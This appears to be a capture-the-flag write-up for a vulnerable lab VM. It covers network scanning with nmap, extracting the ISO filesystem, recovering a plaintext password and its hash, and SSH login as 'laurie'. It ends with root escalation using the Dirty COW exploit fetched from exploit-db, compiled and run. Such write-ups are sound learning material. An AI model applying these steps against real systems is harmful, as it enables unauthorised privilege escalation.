 # Writeup 1

## Host ip address

First we need to find the IP address of the VM

```
$ ifconfig
...
vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 192.168.80.1 netmask 0xffffff00 broadcast 192.168.80.255
...
```
Now we scan this IP with nmap

```
$ nmap 192.168.80.1-255
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-22 14:14 CET
Nmap scan report for 192.168.80.1
Host is up (0.00019s latency).
Not shown: 967 closed ports, 32 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.80.128
Host is up (0.00053s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

The machine with the most ports open is the one we are looking for...  
In this example : 192.168.80.128


## ISO File System

Now we need to gain access to the file system of the ISO.
Among other files, this ISO contains the following one : "/casper/filesystem.squashfs".
This file is actually the whole compressed file system.
To decompress and extract it we can use the linux unsquashfs command like so :

```
unsquashfs -f -d /path/to/destination/ /path/to/source/filesystem.squashfs
```

## /home/lmezard/

Here we can find 2 files.

```
$ cd /home/lmezard/ ; ls
fun  README
```
The fun file is actually an archive...

```
$ file fun
fun: POSIX tar archive (GNU)
```

Decompressing it produces a new directory called "ft_fun".

```
$ tar xvf fun ; ls
ft_fun  fun  README
```

The ft_fun directory contains a fuck tone of files...  
We notice that each one of them is written in C language and its last line is tagged with a comment like so :
- //file3
- //file235
- ...

We can write a little PHP script to read them and recompose the original C file, compile the file and execute it.

```
$ php pack.php && gcc main.c && ./a.out
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

If we SHA-256 this password we obtain
```
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```
We can now connect with ssh as "laurie".

## Race Condition Privilege Escalation

First we need information about the OS.  

Kernel version
```
$ uname -r
3.2.0-91-generic-pae
```

Distribution name and version
```
$ cat /etc/*-release
Ubuntu, 12.04
```

With these informations and a little bit of research on [exploit-db](https://www.exploit-db.com) we found the following exploit
```
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)
```

Get the [script](https://www.exploit-db.com/exploits/40839/) from exploit-db, compile it and launch it
```
$ gcc -pthread dirty.c -o dirty -lcrypt && ./dirty
```

Add a password
```
12345
```

Then use it to get root
```
su firefart
```

## Tadam

Have fun
